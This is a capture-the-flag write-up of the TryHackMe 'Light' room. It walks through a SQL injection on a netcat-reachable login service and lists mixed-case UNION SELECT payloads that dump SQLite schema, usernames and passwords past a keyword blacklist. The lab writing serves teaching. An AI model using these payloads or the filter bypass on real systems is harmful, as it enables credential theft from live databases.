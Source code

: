 # 💡 TryHackMe: Light – SQL Injection Writeup
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-LightRoom-red?logo=tryhackme&style=flat-square)](https://tryhackme.com/room/chillhack)

> **Category:** Databases / SQLi  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
> **Port:** `1337`  
> **Protocol:** Custom TCP (textbaserad tjänst)

---

## 🧠 Challenge Description

> I am working on a database application called Light! Would you like to try it out?  
> If so, the application is running on **port 1337**. You can connect to it using:  
> `nc MACHINE_IP 1337`  
> You can use the username `smokey` in order to get started.  
>  
> **Note:** Please allow the service 2 - 3 minutes to fully start before connecting to it.

---

## 📝 Questions

1. ❓ What is the admin username?  
2. ❓ What is the password to the username mentioned in question 1?  
3. 🏁 What is the flag?

---

## ⚙️ Initial Access

We connect using netcat:

```bash
nc 10.10.216.90 1337
```

Entering `smokey` as the username results in the application auto-filling a password and looping the login.

![Login prompt](https://jull3.se/thm/writeup/nc_login.png?cachebust=20240513)

No output or shell is returned, so we suspect some form of **SQL injection** might be possible via the username prompt.

---

## 💉 SQL Injection Discovery

We test a basic `'` payload and receive an error indicating broken syntax.  
By carefully experimenting with **case-bypassed UNION SELECT** payloads (to avoid keyword blacklists), we find working SQLi vectors.

Eventually, we identify that payloads like the following yield valid responses:

### 🔎 Payloads Used:

```sql
' UniOn SeLeCt sqlite_version() '
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
' UniOn SeLeCt group_concat(username) FROM usertable '
' UniOn SeLeCt group_concat(password) FROM usertable '
' UniOn SeLeCt group_concat(username) FROM admintable '
' UniOn SeLeCt group_concat(password) FROM admintable '
```

We automate this process using a Python script (`sqli.py` in this repo).

### 🖼️ SQLi Output Sample:

![SQLi Payload Output](https://jull3.se/thm/writeup/sqli.png)

---

## ✅ Answers

| Question | Answer |
|----------|--------|
| **Admin username** | `XXXXXXXXXXX` |
| **Admin password** | `maXXXXXXXXXXXXXX` |
| **Flag**           | `THM{SQLXXXXXXXXXXX}` |

---

## 🧠 Notes

- Backend DBMS: **SQLite 3.31.1**
- Application logic: `SELECT * FROM users WHERE username = '{input}' LIMIT 30;`
- Vulnerable input: **username prompt**
- Blacklist bypass: mixed-case `UniOn SeLeCt`
- Comment symbols like `--`, `#` were **filtered**, so `' ... '` was used to close queries cleanly

---

## 📜 Script (optional)

We used a Python socket script (`sqli.py`) to automate sending payloads and capturing responses.

---

🧠 Happy hacking,  
🧢 [Jull3Hax0r](https://jull3.se)
